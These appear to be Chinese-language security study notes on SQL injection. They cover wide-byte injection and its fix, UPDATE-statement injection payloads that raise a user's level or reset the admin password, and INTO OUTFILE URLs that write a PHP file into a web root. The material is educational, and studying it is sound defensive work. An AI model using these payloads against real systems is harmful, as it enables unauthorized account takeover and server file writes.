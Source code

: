 ### 宽字节注入产生原理以及根本原因
* 产生原理
在数据库使用了宽字符集而WEB中没考虑这个问题的情况下，在WEB层，由于0XBF27是两个字符，在PHP中比如addslash和magic_quotes_gpc开启时，由于会对0x27单引号进行转义，因此0xbf27会变成0xbf5c27,而数据进入数据库中时，由于0XBF5C是一个另外的字符，因此\转义符号会被前面的bf带着"吃掉"，单引号由此逃逸出来可以用来闭合语句。

* 在哪里编码
根本原因

character_set_client(客户端的字符集)和character_set_connection(连接层的字符集)不同,或转换函数如，iconv、mb_convert_encoding使用不当。

解决办法

统一数据库、Web应用、操作系统所使用的字符集，避免解析产生差异，最好都设置为UTF-8。 或对数据进行正确的转义，如mysql_real_escape_string+mysql_set_charset的使用。

sql里面只有update怎么利用

先理解这句 SQL
```
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'
```

如果此 SQL 被修改成以下形式，就实现了注入

1：修改 homepage 值为http://xxx.net', userlevel='3

之后 SQL 语句变为
```
UPDATE user SET password='mypass', homepage='http://xxx.net', userlevel='3' WHERE id='$id'
```

userlevel 为用户级别

2:修改 password 值为mypass)' WHERE username='admin'#

之后 SQL 语句变为
```
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
```

3：修改 id 值为' OR username='admin' 之后 SQL 语句变为
```
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
```

sql如何写shell/单引号被过滤怎么办


写shell: root权限，GPC关闭，知道文件路径 outfile函数
```
`http://127.0.0.1:81/sqli.php?id=1 into outfile 'C:\\wamp64\\www\\phpinfo.php' FIELDS TERMINATED BY ''`

`http://127.0.0.1:81/sqli.php?id=-1 union select 1,0x3c3f70687020706870696e666f28293b203f3e,3,4 into outfile 'C:\\wamp64\\www\\phpinfo.php'`
```

宽字节注入
